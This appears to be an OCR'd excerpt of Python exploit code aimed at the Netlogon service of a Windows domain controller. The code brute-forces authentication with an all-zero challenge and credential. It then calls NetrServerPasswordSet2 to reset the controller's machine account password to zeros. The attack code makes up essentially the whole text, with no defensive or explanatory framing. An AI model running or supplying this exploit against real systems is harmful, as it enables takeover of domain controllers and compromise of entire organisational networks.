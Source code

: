 ```
from binascii import hexlify, unhexlify
from subprocess import check_call

# Give up brute-forcing after this many attempts. If vulnerable, 256 attempts are expected to be neccessary on average.
MAX_ATTEMPTS = 2000 # False negative chance: 0.04%

def fail(msg):
  print(msg, file=sys.stderr)
  print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
  sys.exit(2)

def try_zero_authenticate(dc_handle, dc_ip, target_computer):
  # Connect to the DC's Netlogon service.
  binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
  rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
  rpc_con.connect()
  rpc_con.bind(nrpc.MSRPC_UUID_NRPC)

  # Use an all-zero challenge and credential.
  plaintext = b'\x00' * 8
  ciphertext = b'\x00' * 8

  # Standard flags observed from a Windows 10 client (including AES), with only the sign/seal flag disabled.
  flags = 0x212fffff

  # Send challenge and authentication request.
  nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
  try:
    server_auth = nrpc.hNetrServerAuthenticate3(
      rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,
      target_computer + '\x00', ciphertext, flags
    )


    # It worked!
    assert server_auth['ErrorCode'] == 0
    return rpc_con

  except nrpc.DCERPCSessionError as ex:
    # Failure should be due to a STATUS_ACCESS_DENIED error. Otherwise, the attack is probably not working.
    if ex.get_error_code() == 0xc0000022:
      return None
    else:
      fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
  except BaseException as ex:
    fail(f'Unexpected error: {ex}.')

def exploit(dc_handle, rpc_con, target_computer):
    request = nrpc.NetrServerPasswordSet2()
    request['PrimaryName'] = dc_handle + '\x00'
    request['AccountName'] = target_computer + '$\x00'
    request['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    authenticator = nrpc.NETLOGON_AUTHENTICATOR()
    authenticator['Credential'] = b'\x00' * 8
    authenticator['Timestamp'] = 0
    request['Authenticator'] = authenticator
    request['ComputerName'] = target_computer + '\x00'
    request['ClearNewPassword'] = b'\x00' * 516
    return rpc_con.request(request)
```